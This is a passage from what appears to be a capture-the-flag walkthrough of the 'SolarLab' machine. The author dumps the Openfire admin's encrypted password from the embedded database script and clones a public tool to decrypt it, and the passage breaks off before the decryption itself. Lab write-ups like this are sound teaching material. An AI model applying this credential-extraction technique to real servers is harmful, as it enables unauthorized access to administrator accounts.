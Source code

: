 ![](/assets/images/Solarlab/Pasted%20image%2020240921124822.png)

And now I have access as openfire:

![](/assets/images/Solarlab/Pasted%20image%2020240921124842.png)

# Access as administrator

Taking in advantage that I have access as openfire, I can look at the openfire script to initialize the database and some encryption for the Administrator password is there:

```powershell
PS C:\Program Files\Openfire\embedded-db> type openfire.script | findstr INSERT | findstr OFUSER
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
INSERT INTO OFUSERPROP VALUES('admin','console.rows_per_page','/session-summary.jsp=25')
```

Searching in google on how to decrypt it, I stumble upon [this](https://github.com/jas502n/OpenFire_Decrypt/) github that gives the code to decrypt the password. I will clone it and execute it:

```bash
❯ git clone https://github.com/jas502n/OpenFire_Decrypt
Cloning into 'OpenFire_Decrypt'...
remote: Enumerating objects: 69, done.
remote: Counting objects: 100% (69/69), done.
remote: Compressing objects: 100% (63/63), done.
remote: Total 69 (delta 21), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (69/69), 1.19 MiB | 3.33 MiB/s, done.
Resolving deltas: 100% (21/21), done.
❯ cd OpenFire_Decrypt
```

To decrypt it I have to follow the steps described in the poc:
